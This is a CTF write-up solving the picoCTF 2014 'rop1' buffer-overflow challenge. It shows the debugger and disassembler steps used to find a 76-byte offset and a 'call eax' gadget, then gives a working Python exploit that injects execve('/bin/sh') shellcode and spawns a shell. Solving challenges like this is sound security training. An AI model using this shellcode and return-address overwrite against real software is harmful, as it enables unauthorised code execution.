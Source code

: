 ### S0lv3d by H4yicl3

try to download the binary

i use gdb-peda to analysis the code
```
pdis vuln
Dump of assembler code for function vuln:
   0x08048e6d <+0>:     push   ebp
   0x08048e6e <+1>:     mov    ebp,esp
   0x08048e70 <+3>:     sub    esp,0x58
   0x08048e73 <+6>:     mov    eax,DWORD PTR [ebp+0x8]
   0x08048e76 <+9>:     mov    DWORD PTR [esp+0x4],eax
   0x08048e7a <+13>:    lea    eax,[ebp-0x48]
   0x08048e7d <+16>:    mov    DWORD PTR [esp],eax
   0x08048e80 <+19>:    call   0x80481e0
=> 0x08048e85 <+24>:    leave  
   0x08048e86 <+25>:    ret  
```
i am type 16 character A
then i debug i found here
```
EAX: 0xffffd630 ('A' <repeats 16 times>)	<----- after call eax store the buffer
EBX: 0x80481a8 (<_init>:        push   ebx)
ECX: 0xffffd880 ("AAAAAAAAA")
EDX: 0xffffd637 ("AAAAAAAAA")
ESI: 0x0 
EDI: 0x80ea00c --> 0x8067850 (<__stpcpy_sse2>:  mov    edx,DWORD PTR [esp+0x4])
EBP: 0xffffd678 --> 0xffffd698 --> 0x8049640 (<__libc_csu_fini>:        push   ebx)
ESP: 0xffffd620 --> 0xffffd630 ('A' <repeats 16 times>)
EIP: 0x8048e85 (<vuln+24>:      leave)
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048e7a <vuln+13>: lea    eax,[ebp-0x48]
   0x8048e7d <vuln+16>: mov    DWORD PTR [esp],eax
   0x8048e80 <vuln+19>: call   0x80481e0
=> 0x8048e85 <vuln+24>: leave  
```
try use IDA to get the offset
```
-00000048 dest            db ?
+00000004  r              db 4 dup(?)
```
offset = 0x48 + 0x4 = 0x4c =76

that mean we call return to gadget ( call eax)
```
objdump -M intel -d rop1 |grep "call *eax"
 8048d86:       ff d0                   call   eax
```
that mean we can excute the shell with the input is shellcode
```python
padding ="\x31\xc0\x31\xdb\x31\xc9\xb0\x17\xcd\x80\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"
length_shellcode=44
padding +="A"*(76-44)
call_eax = "\x86\x8d\x04\x08"

print padding + call_eax
```

try run it
```
hayicle@ubuntu:~/ctf/pico2014/picoctf$ ./rop1 `python rop1.py`
$ whoami
hayicle
```

well done !!

